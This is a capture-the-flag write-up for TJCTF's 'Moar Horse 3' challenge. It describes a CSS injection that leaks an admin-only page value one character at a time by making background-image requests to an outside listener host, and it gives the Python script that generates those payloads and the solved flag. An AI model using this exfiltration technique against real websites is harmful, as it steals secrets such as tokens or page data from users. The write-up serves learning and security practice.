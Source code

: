 # Moar Horse 3
### Forensics: 100 points
#### Solved by: Vermillion
```
Written by okulkarni
```
`I copped this really cool `<a href='https://moar_horse_3.tjctf.org/'>website</a> `from online and made it customizable so you can flex your CSS skills on everyone, especially the admin.`
```
Note: When you get the flag, wrap it in tjctf{} before submitting
```
When I opened the website, its design was horrible, of course on purpose. I don't have an image of how it looked during competition, but that doesn't matter. The website (now) looks like this:

<img src="https://cdn.discordapp.com/attachments/532350033241309226/567457247609880688/unknown.png">

Clearly, it appears to be some sort of CSS injection. The first thing I did was enter random text to see what would happen, and found that it added a new style tag to the html. I tried some ideas of my own, like closing out the style tag, but none of it worked. But then I saw this:

<img src='https://cdn.discordapp.com/attachments/532350033241309226/567458807953752082/unknown.png'>

Clearly, if I pressed the 'show admin' button, the value of the h1 tag would be the flag. But how do I pull that from my side? So I turned to Google, searching 'css injection ctf'.

I found this <a href='https://medium.com/bugbountywriteup/exfiltration-via-css-injection-4e999f63097d'>site</a> and wrote up my exploit using it. I had originally used Heroku to receive the requests, but switched to a listening site built by a ctf-er.

My exploit wrote a python script to generate an injection for all possible alphanumeric characters in this format:
```
h1[value^=(insertflagcharactershere)]{
    background-image: url(https://weastie.com/l/tkf6/letter=(letterimtryinghere));
}
```
This would send a request to the listener site `https://weastie.com/l/tkf6/letter=` followed by a letter if said letter was the next letter in the flag characters. When it started, I would have one such block for each letter, having `value^=` followed by said letter. Once I figured out the first letter, I would append that to `value^=` and continue trying more characters.

I wrote a python script to generate my injection:
```
#https://medium.com/bugbountywriteup/exfiltration-via-css-injection-4e999f63097d
text1 = 'h1[value^=l0l1nj3ctc' #The flag that I had gotten up until I guesed the rest
text2 = ''']{
    background-image: url(https://weastie.com/l/tkf6/letter='''
text3 = ''');
}'''

import string
for char in string.ascii_letters+string.digits:
	print text1+char+text2+char+text3
```
And it gave an ouput with my full injection, which I copied and pasted into the textbox. An excerpt is below:

<img src='https://cdn.discordapp.com/attachments/532350033241309226/567459953086955520/unknown.png'>

After spastically spamming the Refresh button, I eventually got a request for each letter. An example is below:

<img src='https://cdn.discordapp.com/attachments/532350033241309226/567460720606838803/unknown.png'>

I slowly bashed out each letter in this manner, until I got the string `l0l1nj3ctc`, and I guessed that the flag was l0l1nj3ctc55. And it was! Nice.

flag: `tjctf{l0l1nj3ctc55}`

Note: It's really important to read the medium link that I used so you can understand my code a bit better. Also, a lot of these picturs I get after the competition, so that's why the listener url is different.
